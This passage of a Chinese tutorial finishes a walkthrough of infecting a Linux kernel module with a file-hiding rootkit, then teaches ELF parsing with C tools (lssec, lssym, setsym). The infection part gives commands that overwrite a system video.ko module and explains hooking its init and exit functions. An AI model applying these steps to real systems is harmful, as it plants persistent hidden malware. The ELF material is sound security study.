   $ cp infected.ko /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko

   // 重启系统。
   $ reboot

系统重启之后检查 dmesg 日志并测试是否可以查看到我们的隐藏文件，
以此来判断我们的恶意模块是否正常工作。

看下图，我们可以看到，在系统启动的初期，
我们感染到 ``video`` 模块里的代码打印出来的启动信息。
显然，我们的感染是成功。

.. image:: images/startup.png

系统重启之后，进行文件隐藏是否起作用的测试。参考结果如下图。

.. image:: images/rebooted.png

如何修改 fshid 使其便于寄生到真实的系统模块
*******************************************

在第 3 小节感染示例模块的时候，我们就对 fshid 做了一些必要的修改。
请注意，在用来感染实际的系统模块时，我们还要多做一点改动。

改动的第一点是把 ``init_module`` 与 ``cleanup_module`` 改成
``fshid_init`` 与 ``fshid_exit`` 来避免名字冲突。
这一点改动与第 3 小节是一样的。

第二点就是，在 ``fshid_init`` 里调用 ``acpi_video_init`` ，
在 ``fshid_exit`` 里调用 ``acpi_video_exit``
来使宿主被感染之后依旧能正常工作。第二点也与第 3 小节类似。

最后是与第 3 小节不同的一个改动，
在定义 ``fshid_init`` 的时候前面加上 ``__init`` ，
定义 ``fshid_exit`` 的时候前面加上 ``__exit`` 。

这是因为系统模块的初始函数与退出函数在定义的时候
通常都加上了这两个修饰前缀。
它们的作用是把函数的代码放到特殊的代码区间里
（也就是说，不放到 ``.text`` 区间里）。
这一点我们要与被感染的模块保持一致。

把系统模块初始函数与退出函数的绑定改成 global 的必要性
******************************************************

系统模块的初始函数与退出函数在定义的时候通常也都会加上 ``static`` ，
这就使得这两个函数只在它那个源码文件的目标文件里可见，
我们也就不能在我们的假初始函数与假退出函数里调用了。

所以，我们要先用 ``objcopy --globalize-symbol``
把这两个函数从 ``local`` 变成 ``global`` 。

5. 小结
+++++++

到此，我们详细讨论了通过链接、修改符号表来感染其他模块并劫持 /
挂钩其他模块的初始函数与退出函数，并将目标模块变成我们的宿主，
依托目标模块活动。

需要说明的是，对符号的具体解析、重定位细节，本文没有深入，
且待后续的分解。

另外，本文使用的 ``ld`` 与 ``objcopy`` 在普通用户的机器上很可能没有。
也就是说，我们其实需要自己实现链接与把符号从 ``local``
改成 ``global`` 的功能。考虑到篇幅有限，本文对这两个的实现不做讲解。


第二部分： ELF 文件解析初步
---------------------------

示例一：列举所有区间的名字、文件偏移等信息：``lssec``
+++++++++++++++++++++++++++++++++++++++++++++++++++++

分析 ELF 头部
*************

ELF 文件的起始部分为 ELF 头部，
ELF 头部有两种， 即 ``Elf32_Ehdr`` （32 比特 ELF 文件头部）
与 ``Elf64_Ehdr`` （64 比特 ELF 文件头部）。

我们以 ``Elf64_Ehdr`` 为例看看其成员的含义。

.. code-block:: c

   typedef struct
   {
     unsigned char  e_ident[EI_NIDENT]; // ELF 特征码与其他信息。
     Elf64_Half     e_type; // 类型。
     Elf64_Half     e_machine; // 架构。
     Elf64_Word     e_version; // 版本。
     Elf64_Addr     e_entry; // 入口点虚拟地址。
     Elf64_Off  e_phoff; // 程序头表的文件偏移。
     Elf64_Off  e_shoff; // 区间头表的文件偏移。
     Elf64_Word     e_flags;
     Elf64_Half     e_ehsize; // ELF 头部的大小（单位：字节）。
     Elf64_Half     e_phentsize; // 程序头表项的大小（单位：字节）。
     Elf64_Half     e_phnum; // 程序头表项的数目。
     Elf64_Half     e_shentsize; // 区间头表项的大小（单位：字节）。
     Elf64_Half     e_shnum; // 区间头表项的数目。
     Elf64_Half     e_shstrndx; // 区间头字符串表在区间头表的索引。
   } Elf64_Ehdr;

头部的前 ``EI_NIDENT`` 字节数据（即结构体中的 e_ident 成员）
为 ELF Identification，
其中包括特征码，比特类型（即 32 比特或者 64 比特）
与其他信息（比如端序 ）。

具体解析的时候，我们先从文件的起始处读取
``EI_NIDENT`` 字节的内容到内存中，
从中判断出文件的比特类型，在知道了文件的比特类型之后，
我们就可以确定该用 ``Elf32_Ehdr`` 还是用 ``Elf64_Ehdr`` 。

本文涉及的所有操作均以 ``Elf64_Ehdr`` + 小端序为例。

结合示例代码来理解。

.. code-block:: c

   // 省略打开文件部分。

   unsigned char e_ident[EI_NIDENT];
   // 读取文件起始 ``EI_NIDENT`` 字节的内容。
   if (fread(e_ident, 1, EI_NIDENT, fp) != EI_NIDENT) {
       fprintf(stderr, "%s\n", "Incomplete ELF Identification!");
       return EXIT_FAILURE;
   }

   // 判断 ``ELF`` 特征码是否正确。
   // ``ELFMAG`` 与 ``SELFMAG`` 定义于系统头文件 ``elf.h`` 中，
   // 分别为特征码与特征码的大小。
   if (memcmp(e_ident, ELFMAG, SELFMAG) != 0) {
       fprintf(stderr, "%s\n", "Bad ELF Magic Number!");
       return EXIT_FAILURE;
   }

   // 判断是否是 64 比特小端序。
   // 这里使用的宏比如 ``EI_CLASS`` 与 ``ELFCLASS64`` 均定义于 ``elf.h`` 。
   if (e_ident[EI_CLASS] != ELFCLASS64 || e_ident[EI_DATA] != ELFDATA2LSB) {
       fprintf(stderr, "%s\n", "We Only Support ELF64 LE!");
       return EXIT_FAILURE;
   }

   Elf64_Ehdr header;
   // 退回到文件起始。
   fseek(fp, 0, SEEK_SET);
   // 读取一个 ``Elf64_Ehdr`` 大小的内容，
   // 也就是读取 ``ELF`` 头部。
   if (fread(&header, 1, sizeof header, fp) != sizeof header) {
       fprintf(stderr, "%s\n", "Incomplete ELF Header!");
       return EXIT_FAILURE;
   }

分析区间头部
************

上面我们讨论了 ELF 头部的结构与读取方式，
接下来我们看看怎样处理区间头部，区间头部也分两种，
32 比特的叫 ``Elf32_Shdr`` ，自然 64 比特的也就叫 ``Elf64_Shdr`` 。

以 ``Elf64_Shdr`` 为例，成员含义如下。

.. code-block:: c

   typedef struct
   {
     Elf64_Word     sh_name; // 区间名（字符串表索引）。
     Elf64_Word     sh_type; // 区间类型。
     Elf64_Xword    sh_flags; // 区间标志。
     Elf64_Addr     sh_addr; // 区间虚拟地址。
     Elf64_Off  sh_offset; // 区间文件偏移。
     Elf64_Xword    sh_size; // 区间大小（单位：字节）。
     Elf64_Word     sh_link;
     Elf64_Word     sh_info;
     Elf64_Xword    sh_addralign;
     Elf64_Xword    sh_entsize; // 这个会在下面 lssym 的时候解释。
   } Elf64_Shdr;

值得注意的是， ``sh_name`` 成员并不是一个字符串，
而是一个整数，为区间头表字符串表的索引。
那我们怎么拿到这个区间的名字呢？

回想我们前面讲的 ELF 头部结构，
``Elf64_Ehdr`` 里的 ``e_shoff`` 成员是区间头表的文件偏移，
``e_shentsize`` 是区间头表项的大小（单位：字节），
``e_shnum`` 是区间头表项的数目；也就是说，
从文件偏移 ``e_shoff`` 开始 ``e_shentsize * e_shnum`` 大小的内容
就是区间头表。
这样一来，我们可以把整个区间头表读取到内存里。
而 ``e_shstrndx`` 是字符串表在区间头表的索引，
通过访问这个索引得到字符串表的头部，
并进而根据头部中的信息将字符串表的内容读取出来，
再 ``sh_name`` 作偏移访问字符串表就可以拿到区间名了。

结合代码示例理解。

.. code-block:: c

   size_t size = header.e_shnum * header.e_shentsize;
   // 分配区间头表大小的内存。
   Elf64_Shdr *section_header_table = malloc(size);
   if (section_header_table == NULL) {
       perror("malloc");
       return EXIT_FAILURE;
   }

   // 定位到文件偏移 ``e_shoff`` 处。
   fseek (fp, header.e_shoff, SEEK_SET);
   // 读取区间头表。
   if (fread(section_header_table, 1, size, fp) != size) {
       fprintf(stderr, "%s\n", "Incomplete Section Header Table!");
       return EXIT_FAILURE;
   }

   // 得到字符串表的区间头。
   Elf64_Shdr shstrtab = section_header_table[header.e_shstrndx];
   // 区间大小。
   size = shstrtab.sh_size;
   // 分配内存。
   char *section_header_string_table = malloc(size);
   if (section_header_string_table == NULL) {
       perror("malloc");
       return EXIT_FAILURE;
   }

   // 定位到字符串表所在文件偏移。
   fseek (fp, shstrtab.sh_offset, SEEK_SET);
   // 读取字符串表。
   if (fread(section_header_string_table, 1, size, fp) != size) {
       fprintf(stderr, "%s\n", "Incomplete Section Header String Table!");
       return EXIT_FAILURE;
   }

遍历所有区间并打印其信息
************************

然后我们就可以遍历区间头表并将其名字、文件偏移等信息打印出来。
代码如下。

.. code-block:: c

   printf("%s\n", "number offset     size   entsize   name");
   for (unsigned num = 0; num < header.e_shnum; num += 1) {
       Elf64_Shdr section_header = section_header_table[num];
       char *name = string_table + section_header.sh_name;
       printf("%4u %8llx %8llx %8llx %s\n",
              num, section_header.sh_offset,
              section_header.sh_size, section_header.sh_entsize,
              name);
   }

参考效果
********

编译 ``lssec.c`` 得到 ``lssec`` 。

左边是 ``./lssec /bin/ls`` ，
右边是对比使用的 ``readelf -S /bin/ls`` 。

.. image:: images/lssec.png

示例二：列举所有符号的名字、值等信息：``lssym``
+++++++++++++++++++++++++++++++++++++++++++++++

上面的示例一完成了对区间头表的遍历。现在我们再看看怎么读取符号表。

基于示例一遍历区间头表的代码，
我们可以实现一个 ``get_section_by_name`` ，
即通过区间名字拿到对应的区间头。

然后我们通过 ``get_section_by_name`` 拿到 ``.symtab`` （即符号表）与
``.strtab`` （符号字符串表）的区间头，
进而根据这两个头把这两个区间读到内存中来。
看如下代码。

.. code-block:: c

   // 获取 .symtab 的头。
   Elf64_Shdr *symtab = get_section_by_name(".symtab",
                                            header,
                                            sec_header_tab,
                                            shstrtab);

   // 这儿省略获取 .strtab 的头，与获取 .symtab 的头类似。

   // 这儿省略对是否获取成功的检查。

   // 分配 .symtab 大小的内存。
   Elf64_Sym *syms = malloc(symtab->sh_size);
   if (syms == NULL) {
       perror("malloc");
       return EXIT_FAILURE;
   }
   // 定位到 .symtab 的文件偏移。
   fseek(fp, symtab->sh_offset, SEEK_SET);
   // 读取 .symtab。
   if (fread(syms, 1, symtab->sh_size, fp) != symtab->sh_size) {
       fprintf(stderr, "%s\n", "Incomplete Symbol Table!");
       return EXIT_FAILURE;
   }

   // 这儿省略 .strtab 的读取，与 .symtab 的读取类似。

此时， ``.symtab`` 与 ``.strtab`` 都已经读到内存里了。
下面我们看看， ``.symtab`` 的结构。

区间头有一个 ``sh_entsize`` 成员，这个成员的含义是，
如果这个区间保存的是一张表，
那么 ``sh_entsize`` 就是这张表中每个成员的大小。
回想一下，区间头里的 ``sh_size`` 是区间的大小，
所以对 ``.symtab`` 而言，它有 ``sh_size / sh_entsize`` 项成员。

每项成员由结构体 ``Elf64_Sym`` 描述，定义如下。

::

   typedef struct
   {
     Elf64_Word     st_name; // 符号名字（字符串表索引）
     unsigned char  st_info; // 类型与绑定。
     unsigned char st_other;
     Elf64_Section  st_shndx;
     Elf64_Addr     st_value; // 符号的值。
     Elf64_Xword    st_size;
   } Elf64_Sym;

``Elf64_Sym`` 中的 ``st_name`` 是一个整数，
为符号的名字在 ``.strtab`` 中的索引，
这一点与之前区间头（ ``Elf64_Shdr`` ）里的 ``sh_name`` 类似。

知道了这些，我们就可以遍历整个符号表并将符号的名字，
符号的值等信息打印出来，如下代码所示。

.. code-block:: c

   printf("%s\n",
          "num    index    size    value  info other  name");
   int total = symtab->sh_size / symtab->sh_entsize;
   for (int count = 0; count < total; count += 1) {
       printf("%4llu %4llx %8llu %8llx %4x %4x %s\n",
              count,
              syms[count].st_shndx,
              syms[count].st_size,
              syms[count].st_value,
              syms[count].st_info,
              syms[count].st_other,
              strs + syms[count].st_name);
   }

参考效果
********

编译 ``lssym.c`` 得到 ``lssym`` ，如下图所示，
左边是 ``./lssym ../noinj/noinj.ko`` ，
右边是用来对照的 ``readelf -s ../noinj/noinj.ko`` 。

.. image:: images/lssym.png

示例三：获取或修改给定符号的值：``setsym``
++++++++++++++++++++++++++++++++++++++++++

既然我们已经能够遍历整个符号表了，那么要获取给定符号的值，毫无压力。

那么修改给定符号的值呢，也很简单，请看如下代码，
基于示例二的遍历逻辑修改而来。

.. code-block:: c

    for (int count = 0; count < total; count += 1) {
        // 判断当前遍历到的符号是不是我们给定的符号。
        // 请注意，argv[2] 位置参数用来给定符号的名字。
        if (strcmp(strs + syms[count].st_name, argv[2]) == 0) {
           // 如果是，就会执行进来。
           // 判断位置参数的个数。
            if (argc == 4) {
                // 如果给定了 3 个位置参数，执行到这里。
                // 这时是 setsym 的第二种用法。
                // 即 setsym <module_path> <symbol_name> <symbol_value> 。
                // 也就是设置给定符号的值。

                // 取当前符号。
                Elf64_Sym sym = syms[count];
                char *endp;
                errno = 0;
                // 将 argv[3] 转换成整数。
                // 注意 argv[3] 是需要设置的给定符号的值。
                unsigned long long val = strtoull(argv[3], &endp, 0);
                // 处理转换时可能出现的错误。
                if ((errno == ERANGE && val == ULLONG_MAX) ||
                    (errno != 0 && val == 0)) {
                    perror("strtoull");
                    return EXIT_FAILURE;
                }
                // 处理转换时可能出现的错误。
                if (endp == argv[3]) {
                    fprintf(stderr, "%s\n", "No Valid Number!");
                    return EXIT_FAILURE;
                }
                // 把符号的值改成给定的值。
                sym.st_value = val;

                // 计算当前符号距离 .symtab 起始的偏移。
                long delta = count * symtab->sh_entsize;
                // 定位到当前符号的文件偏移。
                fseek(fp, symtab->sh_offset + delta, SEEK_SET);
                // 写入修改后的符号。
                if (fwrite(&sym, 1, sizeof sym, fp) != sizeof sym) {
                    fprintf(stderr, "%s\n", "Incomplete Sym Write!");
                    return EXIT_FAILURE;
                } else {
                    fprintf(stderr, "%s\n", "Writing complete.");
                }
            } else {
                // 如果给定了 2 个位置参数，执行到这里。
                // 请注意，我们在程序的开始部分就把 argc 限制在了
                // 3 或者 4 。

                // 这时是 setsym 的第一种用法。
                // 即 setsym <module_path> <symbol_name> 。
                // 获取给定符号的值。
                printf("0x%llx\n", syms[count].st_value);
            }
        }
    }

参考效果
********

考虑到我们在第一部分已经基于 ``setsym`` 完成了我们的 Happy Hacking 。
这里就不必举参考用例了。

第三部分： 参考资料与延伸阅读
-----------------------------

1. 参考资料
+++++++++++

- `Infecting loadable kernel modules: kernel versions 2.6.x/3.0.x <http://phrack.org/issues/68/11.html#article>`_
- `Tool Interface Standard (TIS) Executable and Linking Format (ELF) Specification Version 1.2 <http://refspecs.linuxbase.org/elf/elf.pdf>`_

2. 延伸阅读
+++++++++++

- `Infecting Loadable Kernel Modules <http://phrack.org/issues/61/10.html#article>`_
- `Static Kernel Patching <http://phrack.org/issues/60/8.html#article>`_


如有错误疏忽，欢迎纠正补充；
如有疑惑不解，欢迎提问讨论。

rectigu@gmail.com ， 二〇一六年七月。


.. _笔者的上一篇文章: http://www.freebuf.com/articles/system/107829.html
